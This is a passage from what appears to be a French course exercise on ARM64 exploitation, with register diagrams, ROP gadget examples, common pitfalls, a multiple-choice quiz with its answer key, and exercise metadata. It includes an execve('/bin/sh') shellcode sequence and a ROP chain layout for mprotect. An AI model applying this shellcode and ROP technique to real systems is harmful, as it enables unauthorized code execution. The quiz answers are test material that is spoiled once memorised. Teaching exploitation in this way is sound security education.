    |   | X29    | FP     |       | RBP      | FP     |
    |   | X30    | LR     |       | (stack)  | RetAddr|
    |   | SP     | Stack  |        | RSP      | Stack  |
    |   | PC     | IP     |        | RIP      | IP     |
    |   +----------------+        +----------------+   |
    |                                                  |
    +--------------------------------------------------+

              ROP CHAIN ARM64
    +--------------------------------------------------+
    |                                                  |
    |   Stack (avant exploit)      Stack (apres)       |
    |   +------------------+      +------------------+ |
    |   | saved X29        |      | gadget1 addr     | |
    |   | saved X30 (ret)  | ---> | value for X0     | |
    |   | local vars       |      | gadget2 addr     | |
    |   | ...              |      | value for X1     | |
    |   +------------------+      | syscall gadget   | |
    |                             +------------------+ |
    |                                                  |
    +--------------------------------------------------+

              SHELLCODE ARM64 execve
    +--------------------------------------------------+
    |                                                  |
    |   Instructions:                                  |
    |   +------------------------------------------+   |
    |   | mov x0, addr_of_binsh  ; 1er arg         |   |
    |   | mov x1, #0             ; argv = NULL     |   |
    |   | mov x2, #0             ; envp = NULL     |   |
    |   | mov x8, #221           ; execve syscall  |   |
    |   | svc #0                 ; trigger syscall |   |
    |   +------------------------------------------+   |
    |                                                  |
    +--------------------------------------------------+
```

### 5.4 Les pieges en detail

#### Piege 1 : Confusion des numeros de syscall

```python
# MAUVAIS: Utilise les numeros x86-64
EXECVE_SYSCALL = 59

# BON: Utilise les numeros ARM64
EXECVE_SYSCALL = 221
MPROTECT_SYSCALL = 226
```

#### Piege 2 : Oublier le Link Register

```python
# MAUVAIS: Chercher l'adresse de retour sur la stack comme x86
ret_addr = stack[rsp]

# BON: Sur ARM, l'adresse de retour est dans X30 (LR)
# Elle n'est pushee que si la fonction appelle d'autres fonctions
```

#### Piege 3 : Instructions de taille fixe

```python
# MAUVAIS: Chercher des gadgets a n'importe quel offset
for offset in range(len(binary)):
    check_gadget(binary[offset:])

# BON: Sur ARM64, les instructions sont alignees sur 4 bytes
for offset in range(0, len(binary), 4):
    check_gadget(binary[offset:])
```

### 5.5 Cours Complet

#### 5.5.1 L'architecture ARM64 en profondeur

ARM64 (AArch64) est l'architecture 64-bit d'ARM, utilisee depuis l'ARMv8-A.

**Registres generaux :**
- **X0-X30** : 31 registres 64-bit
- **W0-W30** : Vue 32-bit des memes registres
- **XZR/WZR** : Registre zero (lit 0, ignore les ecritures)

**Registres speciaux :**
- **SP** : Stack Pointer (peut etre X31 dans certains contextes)
- **PC** : Program Counter (non accessible directement)
- **PSTATE** : Flags (equivalent de RFLAGS)

**AAPCS64 (Convention d'appel) :**
- Arguments : X0-X7 (8 arguments dans les registres!)
- Retour : X0 (et X1 pour les valeurs 128-bit)
- Callee-saved : X19-X28, X29 (FP), X30 (LR)
- Caller-saved : X0-X18

#### 5.5.2 ROP sur ARM64

Les gadgets ARM64 sont differents de x86 :

**Gadgets typiques :**
```asm
; Gadget de load depuis stack
ldr x0, [sp, #0x10]    ; Charge X0 depuis SP+0x10
ldp x29, x30, [sp], #0x20  ; Restore FP, LR, ajuste SP
ret                     ; Retourne (BR X30)

; Gadget de controle
blr x3                  ; Branch avec link vers X3
```

**Differences avec x86 :**
1. `RET` est equivalent a `BR X30` (pas de pop)
2. `LDP` charge deux registres a la fois
3. Pas de `POP`/`PUSH` directs (utiliser `LDR`/`STR`)

#### 5.5.3 Shellcoding ARM64

**Syscalls ARM64 Linux :**
```asm
; execve("/bin/sh", NULL, NULL)
mov x0, addr_shell    ; 1er arg: path
mov x1, xzr           ; 2eme arg: argv = NULL
mov x2, xzr           ; 3eme arg: envp = NULL
mov x8, #221          ; Numero syscall execve
svc #0                ; Software interrupt
```

**Instructions utiles :**
- `MOV Xd, #imm` : Charger une valeur immediate
- `LDR Xd, [Xn]` : Charger depuis memoire
- `STR Xd, [Xn]` : Stocker en memoire
- `SVC #0` : Appel systeme

### 5.6 Normes avec explications pedagogiques

```
+---------------------------------------------------------------+
| HORS NORME (fonctionne, mais interdit)                        |
+---------------------------------------------------------------+
| from pwn import *  # Utiliser pwntools                        |
| rop = ROP(elf)     # Automatisation interdite                 |
+---------------------------------------------------------------+
| CONFORME                                                      |
+---------------------------------------------------------------+
| import struct                                                 |
| def pack64(v): return struct.pack('<Q', v)                    |
| # Implementation manuelle des concepts                        |
+---------------------------------------------------------------+
| POURQUOI ?                                                    |
|                                                               |
| L'exercice vise a comprendre les mecanismes ARM64,            |
| pas a utiliser des outils automatiques.                       |
+---------------------------------------------------------------+
```

### 5.7 Simulation avec trace d'execution

**Entree :** `{"gadgets": [...], "target": "mprotect", "buffer_addr": "0x7fff0000"}`

```
+-------+-------------------------------------------+------------------------+
| Etape | Instruction                               | Resultat               |
+-------+-------------------------------------------+------------------------+
|   1   | parse_gadgets(gadgets_raw)                | {load_x0: [...], ...}  |
+-------+-------------------------------------------+------------------------+
|   2   | generate_arm64_shellcode("mprotect")      | bytes[8]               |
+-------+-------------------------------------------+------------------------+
|   3   | build_rop_chain(gadgets, ...)             | [gadget1, gadget2, ...]|
+-------+-------------------------------------------+------------------------+
|   4   | pack64(gadget_addr)                       | b'\x00\x01\x40\x00...' |
+-------+-------------------------------------------+------------------------+
|   5   | Assembler payload                         | bytes[64]              |
+-------+-------------------------------------------+------------------------+
```

### 5.8 Mnemotechniques

#### MEME : "Ghost in the Shell - Different Shells, Same Ghost"

Comme le Major qui peut habiter differents corps (shells), tes competences d'exploitation peuvent habiter differentes architectures. Le "ghost" (la logique d'exploitation) reste le meme, seul le "shell" (l'architecture) change.

```python
if architecture == "x86":
    shell = x86_shell()
elif architecture == "arm64":
    shell = arm64_shell()
# Le ghost (toi) reste le meme!
```

#### MEME : "Avengers mais ARM edition"

- **X0** = Iron Man (premier a entrer, porte le payload)
- **X8** = Thanos (snap = syscall, decide du destin)
- **X30** = Doctor Strange (sait ou retourner dans le temps/code)
- **SP** = Hulk (force brute, base de tout)

### 5.9 Applications pratiques

1. **iOS Jailbreaking** : Construire des chaines ROP pour bypasser les protections Apple
2. **Android Rooting** : Exploiter des vulnerabilites kernel ARM
3. **IoT Security** : Analyser des firmware ARM embarques
4. **Cloud Security** : AWS Graviton et autres serveurs ARM

---

## SECTION 6 : PIEGES - RECAPITULATIF

| # | Piege | Consequence | Solution |
|---|-------|-------------|----------|
| 1 | Numeros syscall x86 | Syscall echoue | Utiliser numeros ARM64 |
| 2 | Oublier LR (X30) | Crash au retour | Controler X30 |
| 3 | Big-endian | Donnees corrompues | Utiliser little-endian |
| 4 | Instructions non-alignees | Illegal instruction | Aligner sur 4 bytes |
| 5 | Ignorer PAC (iOS) | Exploit echoue | Verifier protections |

---

## SECTION 7 : QCM

### Question 1
**Quel registre contient le numero de syscall sur ARM64 Linux ?**

A) X0
B) X7
C) X8
D) X29
E) X30
F) SP
G) PC
H) RAX
I) R7
J) R8

**Reponse : C**

---

### Question 2
**Quelle instruction declenche un syscall sur ARM64 ?**

A) INT 0x80
B) SYSCALL
C) SVC #0
D) CALL kernel
E) TRAP
F) SWI
G) BRK
H) HLT
I) INT 3
J) IRET

**Reponse : C**

---

### Question 3
**Quel est le numero de syscall pour execve sur ARM64 Linux ?**

A) 11
B) 59
C) 221
D) 0x80
E) 1
F) 57
G) 63
H) 231
I) 226
J) 64

**Reponse : C**

---

### Question 4
**Quel registre contient l'adresse de retour sur ARM64 ?**

A) X0
B) X29 (FP)
C) X30 (LR)
D) SP
E) PC
F) Sur la stack
G) X31
H) XZR
I) R14
J) R15

**Reponse : C**

---

### Question 5
**Combien d'arguments peuvent etre passes dans les registres en AAPCS64 ?**

A) 4
B) 6
C) 8
D) 2
E) 16
F) Illimite
G) 3
H) 5
I) 7
J) 1

**Reponse : C**

---

## SECTION 8 : RECAPITULATIF

| Element | Valeur |
|---------|--------|
| **Difficulte** | 8/10 |
| **Temps estime** | 90 min |
| **XP Base** | 300 |
| **XP Bonus** | x2 (600 total) |
| **Concepts cles** | ARM64, ROP, Shellcode, AAPCS64, SVC |
| **Langage** | Python 3.12 |
| **Prerequis** | ROP x86, Architecture ARM, Syscalls |

---

## SECTION 9 : DEPLOYMENT PACK

```json
{
  "deploy": {
    "hackbrain_version": "5.5.2",
    "engine_version": "v22.1",
    "exercise_slug": "3.4.2-c-arm-exploiter",
    "generated_at": "2026-01-16",

    "metadata": {
      "exercise_id": "3.4.2-c",
      "exercise_name": "arm_exploiter",
      "module": "3.4.2",
      "module_name": "ARM64 Architecture",
      "concept": "c",
      "concept_name": "Exploitation ARM64",
      "type": "code",
      "tier": 2,
      "tier_info": "Concepts multiples integres",
      "phase": 3,
      "difficulty": 8,
      "difficulty_stars": "8/10",
      "language": "python",
      "duration_minutes": 90,
      "xp_base": 300,
      "xp_bonus_multiplier": 2,
      "prerequisites": ["ROP x86-64", "ARM64 basics", "Syscalls"],
      "domains": ["ARM", "Exploit", "ASM"],
      "tags": ["arm64", "rop", "shellcode", "exploitation"]
    },

    "files": {
      "spec.json": "/* Section 4.9 */",
      "references/ref_solution.py": "/* Section 4.3 */",
      "references/ref_solution_bonus.py": "/* Section 4.6 */"
    }
  }
}
```
